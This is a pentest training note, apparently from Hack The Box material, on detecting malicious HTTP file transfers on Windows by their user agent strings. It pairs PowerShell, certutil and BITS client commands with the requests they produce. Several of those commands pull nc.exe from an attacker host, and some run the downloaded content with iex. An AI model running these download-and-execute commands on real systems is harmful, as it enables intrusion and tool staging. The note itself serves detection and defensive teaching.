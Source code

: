 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# Detection
Command-line detection based on blacklisting is straightforward to bypass, even using simple case obfuscation. However, although the process of whitelisting all command-lines in a particular environment is initially time-consuming, it is very robust and allows for quick detection and alerting of any unusual command-lines.

Most client-server protocols require the client and server to negotiate how content will be delivered before exchanging information. This is common with the HTTP protocol. There is a need for interoperability amongst different web server and web browser types to ensure that users have the same experience no matter the browser they are using. HTTP clients are most readily recognized by their user agent string, which the server uses to identify which HTTP client is connecting to it, for example, Firefox, Chrome, etc.

User agents are not only used to identify web browsers, but anything acting as an HTTP client and connecting to a web server via HTTP can have a user agent string (i.e., cURL, a custom Python script, or common tools such as sqlmap, or nmap).

Organizations can take some steps to identify potential user agent strings by first building a list of known legitimate user agent strings, user agents used by default operating system processes, common user agents used by update services such as Windows update and antivirus updates, etc. These can be fed into a SIEM tool used for threat hunting to filter out legitimate traffic and focus on anomalies that may indicate suspicious behavior. Any suspicious-looking user agent strings can then be further investigated to determine whether they were used to perform some malicious action. This website is very useful for identifying common user agent strings. A list of user agent strings is available here.

Malicious file transfers can also be detected by their user agents. The following user agents/headers were observed from common HTTP transfer techniques (tested on Windows 10, version 10.0.14393, with PowerShell 5).

## Invoke-WebRequest - Client
````powershell
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe" 
PS C:\htb> Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
````
## Invoke-WebRequest - Server
````http
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
````
## WinHttpRequest - Client
````powershell
PS C:\htb> $h=new-object -com WinHttp.WinHttpRequest.5.1;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.ResponseText
````
## WinHttpRequest - Server
````http
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
````
## Msxml2 - Client
````powershell
PS C:\htb> $h=New-Object -ComObject Msxml2.XMLHTTP;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.responseText
````
## Msxml2 - Server
````http
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
````
## Certutil - Client
````powershell
PS C:\htb> certutil -urlcache -split -f http://10.10.10.32/nc.exe 
PS C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe
````
## Certutil - Server
````http
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
````
## BITS - Client
````powershell
PS C:\htb> Import-Module bitstransfer;
PS C:\htb> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
PS C:\htb> $r=gc $env:temp\t;
PS C:\htb> rm $env:temp\t; 
PS C:\htb> iex $r
````
## BITS - Server
````http
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
````
